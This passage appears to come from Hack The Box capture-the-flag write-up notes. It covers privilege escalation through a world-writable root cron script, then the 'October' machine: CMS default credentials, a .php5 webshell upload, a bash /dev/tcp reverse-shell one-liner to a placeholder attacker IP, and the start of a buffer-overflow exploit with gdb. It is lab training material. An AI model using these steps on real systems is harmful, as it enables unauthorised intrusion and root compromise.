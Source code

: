 Use `LinEnum.sh`, found a 777 file called `/opt/tmp.py` used for clean the `/tmp`, Check again, owned by `root:root`.

You can also use `pspy` to find this.

What's behind?

`cat /etc/crontab`

```
# m h  dom mon dow   command
*/3 * * * * python /opt/tmp.py

-rwxrwxrwx  1 root root 104 Aug 22 2017 03:38 tmp.py
```

Just that.

So modify `os.system()` in this file to get whatever you want.

(END)

# October

## Port Scan

80+22. Use Apache with October CMS.

## Searchsploit

Running a search, found multiple exploits in October CMS 1.0.412. Try default login credentials `admin:admin`, then use upload vulnerabilities to bypass in a `.php5` file. The shell php file path should be `http://10.10.10.16/storage/app/media/shell.php5`

## Reverse shell

Use Antsword to connect and manage webshell, Run `nc` to get port listened, and next create connection `bash -c 'bash -i &>/dev/tcp/YOUR-IP/YOUR-PORT 0<&1'`

## Buffer Overflow Privilege Escalation

Run LinEnum to enumerate, SUID files seems something wrong.

There's a file called `/usr/local/bin/ovrflw`.

First of all, run `checksec -k` to check that ASLR+NX/DEP has enabled on the box.

Next, Download the binary, and then `gdb ./ovrflw`.

Use `set disassembly-flavor intel` then `disas main` to get the main function assembly code. You just see `strcpy`. TIPS: `info frame` may helps you do check the registers. `break *ADDR` to put a breakpoint. `p system` to get address of system.

Then `/opt/metasploit/tools/exploit/pattern_create.rb -l 150` create a 150-chars long string, next, use `r <CHARS>` to run.
